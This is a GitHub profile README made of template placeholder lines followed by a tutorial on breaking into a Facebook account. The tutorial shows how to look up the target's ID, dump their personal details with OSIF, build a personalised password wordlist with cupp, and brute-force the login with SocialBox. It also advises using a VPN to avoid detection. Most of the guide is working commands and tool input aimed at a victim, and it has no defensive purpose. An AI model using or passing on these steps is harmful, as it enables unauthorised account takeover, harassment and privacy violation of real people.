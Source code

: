- 👋 Hi, I’m @syedzakir770
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
syedzakir770/syedzakir770 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
❤️HOW TO HACK A FACEBOOK ACCOUNT @ONLINEHACKING ❤️

Requirements:
- Termux
- 200 MB space
- Facebook target link
- Info about target
- Root

Setup:
$ apt install nodejs -y

$ pkg install git tsu -y

$ apt install python python2 -y

$ apt update; apt upgrade -y

$ npm install --global facebook-id-of

1️⃣ Getting ID

The first what we need is the ID of the facebook user, this can be found out through the facebook-id-of tool, which we have installed.

On the target profile, we can see URL like this:
https://www.facebook.com/michael.schmidt.7965692 — Remove the hyperlink and copy online name after facebook.com/.

$ facebook-id-of michael.schmidt.7965692

› Facebook ID of michael.schmidt.7965692 is 671393100

2️⃣ Dumping Information About Target

For this, we're gonna using the tool OSIF, it's still working and helping us, to get some details.

$ pkg update upgrade

$ pkg install git python2

$ git clone https://github.com/ciku370/OSIF

$ cd OSIF

$ pip2 install -r requirements.txt

For this tool you need a working, non 2FA facebook account, which can be used for scanning our target. (TARGET MUST EXIST IN FRIEND LIST)

$ python2 osif.py
D3b2y >> token
Type username (email) & Password.

D3b2y >> cat_token
[*]Your access token !!

Setup done now  Hype

D3b2y >> dump_id
D3b3y >> dump_671393100

This fetching some informations about our target an example can be found here:

https://pastebin.com/10H7C22T

If you know your targets e-mail, it's much easier to attack them from the »bruteforce« tool.

D3b3y » dump_mail

Now on to creating a wordlist for bruteforcing

While people downloading random wordlists, creating wordlist with crunch and trying any other method with much effort, we can easily generate a wordlist related to information about our victim. This method has helped me several times to get into an Instagram account.

$ git clone https://github.com/Mebus/cupp.git; cd cupp/

$ python3 cupp.py -i

After tool has been started, fill out the information which you have dumped with OSIF.
It's asking :
> Do you want to add some key words about the victim? Y/[N]: y

> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: football,blue,dog,maddisonschoolmarvelmovies,black,michaeljackson

> Do you want to add special chars at the end of words? Y/[N]: n

> Do you want to add some random numbers at the end of words? Y/[N]:y

> Leet mode? (i.e. leet = 1337) Y/[N]: y

$ cp -R test.txt $HOME

Choose same, if you need keyword put all keywords about target, if you target likes barcelona football club, type barcelona,football.
These keywords can be anything the victim likes. Mother's name, hobbies, favorite movies, food, color, sports, etc.

It's saved as name, as you used for the firstname. If you don't know partner, use any best friend information, there are few apps like tellonym.me, instagram.com, snapchat.com to fetch as much information as you need.

Bruteforcing the account

$ pkg install nano -y

$ git clone https://github.com/TunisianEagles/SocialBox.git; cd SocialBox; chmod +x *.sh

$ nano install-sb.sh

Edit all sudo lines, only remove sudo:
sudo apt-get update
After:
apt update

Exit — ctrl+x — y (yes) — enter.

$ ./install-sb.sh

$ cp -R $HOME/test.txt $PWD

$ ./SocialBox.sh

CP means we are copying our text file from cupp folder to home, then from home to the socialbox folder. Do it, you need in social a wordlist which has been created. If you don't want to copy it :

Choice >  1
Enter Facebook ID / Email / Username / Number: 671393100
Enter wordlist path : $HOME/cupp/test.txt

Now the Bruterforcer will start to read your password list, or the word list you specified, and then try to test the password in the background using YOUR IP address. I have also tried to crack a Facebook account a few times, please use a VPN!


➖jillani ➖
